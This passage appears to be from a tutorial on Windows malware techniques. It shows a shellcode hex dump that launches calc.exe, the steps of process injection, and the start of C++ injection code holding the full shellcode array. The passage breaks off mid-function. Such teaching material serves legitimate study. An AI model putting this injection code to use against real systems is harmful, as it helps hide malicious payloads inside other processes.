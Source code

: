 ```shell
00000090: 8b40 2449 01d0 6641 8b0c 4844 8b40 1c49  .@$I..fA..HD.@.I
000000a0: 01d0 418b 0488 4801 d041 5841 585e 595a  ..A...H..AXAX^YZ
000000b0: 4158 4159 415a 4883 ec20 4152 ffe0 5841  AXAYAZH.. AR..XA
000000c0: 595a 488b 12e9 57ff ffff 5d48 ba01 0000  YZH...W...]H....
000000d0: 0000 0000 0048 8d8d 0101 0000 41ba 318b  .....H......A.1.
000000e0: 6f87 ffd5 bbe0 1d2a 0a41 baa6 95bd 9dff  o......*.A......
000000f0: d548 83c4 283c 067c 0a80 fbe0 7505 bb47  .H..(<.|....u..G
00000100: 1372 6f6a 0059 4189 daff d563 616c 632e  .roj.YA....calc.
00000110: 6578 6500                                exe.
```

Also you can play around with `shellcode` and `code cave` along with [this article](https://ap3x.github.io/posts/backdooring-portable-executables-\(pe\)/)

#### Process Injection

Every process have it's own memory and our goal is to the following things:

1. Get a handle
2. Allocate memory
3. Write shellcode
4. Execute shellcode

To do any of these steps in C++ we need to utilize the windows api. Here is the code with comments, read carefully and try to search information about these functions in windows api docs:

```cpp
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <string.h>

unsigned char shellcode[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
    "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
    "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
    "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
    "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
    "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
    "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
    "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
    "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
    "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
    "\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

unsigned int shellcode_len = sizeof(shellcode);

/**
 * Returns the PID of the process finded by name
 *
 * @param procname the name of the process
 * @return PID of the process
 */
int getPidByName(const char *procname) {

```